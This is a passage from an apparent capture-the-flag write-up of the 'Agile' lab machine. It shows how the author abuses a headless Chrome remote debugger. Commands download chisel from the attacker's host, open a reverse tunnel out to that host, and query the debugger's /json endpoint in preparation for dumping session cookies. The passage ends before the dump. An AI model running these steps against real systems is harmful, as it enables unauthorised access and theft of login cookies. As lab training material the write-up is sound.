 The above test script opens Chromes remote debugger on port 41829, which we can also see in the output.  Seeing as though our test suite above logs in with valid credentials in the test environment, I started looking around to see if we could dump/steal cookies via  the remote debugger.

This article https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/  outlines connecting to the remote debugger.  I uploaded [chisel](https://github.com/jpillora/chisel) to our target, which allows us to tunnel TCP connections over HTTP.

First, I ran a chisel server (reverse) locally on my Parrot VM on port 8000:

```bash
zara$./chisel server -p 8000 --reverse
2023/03/23 21:44:15 server: Reverse tunnelling enabled
2023/03/23 21:44:15 server: Fingerprint RKgTWkEcy/7fipXRcrsd8C1ZXHPjm4hp6Jmgi4P827E=
2023/03/23 21:44:15 server: Listening on http://0.0.0.0:8000 
```

Next, I downloaded chisel to the target from my own machine's HTTP server.  We run with `10.10.14.8:8000` , to connect **out** to my machine.  `R:4444:127.00.1:41829` is allowing our client (the target) to define a reverse tunnel (we specified `--reverse` flag on the server above) such that if I connect to port 4444 on my own machine, a reverse tunnel back to the client/target will be opened and forwarded to the chrome remote debugger on 41829:

```bash
corum@agile:/dev/shm$ curl -o chisel http://10.10.14.8:8081/chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8188k  100 8188k    0     0  2007k      0  0:00:04  0:00:04 --:--:-- 2007k
corum@agile:/dev/shm$ chmod +x chisel
corum@agile:/dev/shm$ ./chisel client 10.10.14.8:8000 R:4444:127.0.0.1:41829
```

Initially I tried browsing to http://localhost:4444/ in Chromium, but was getting a blank page and not sure on the correct URL.   I next encountered a great article demonstrating cookie dumping via the remote debugger: [Hands in the Cookie Jar: Dumping Cookies with Chromium's Remote Debugger Port](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)

Preferring to do things the manual way, we enumerate the `/json` endpoint, which gives us the web socket address for the remote debugger:

```bash
$curl http://127.0.0.1:4444/json                                          
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=127.0.0.1:4444/devtools/page/F5C885E8C47B8DABE5F40413343D1DA7",
   "id": "F5C885E8C47B8DABE5F40413343D1DA7",
   "title": "SuperPassword 𥦸",
   "type": "page",
   "url": "http://test.superpass.htb/",
   "webSocketDebuggerUrl": "ws://127.0.0.1:4444/devtools/page/F5C885E8C47B8DABE5F40413343D1DA7"
} ]
```

Next, connect to the web socket, and issue the `Network.getAllCookies` API command, which, you guessed it, dumps the headless brower's cookies:
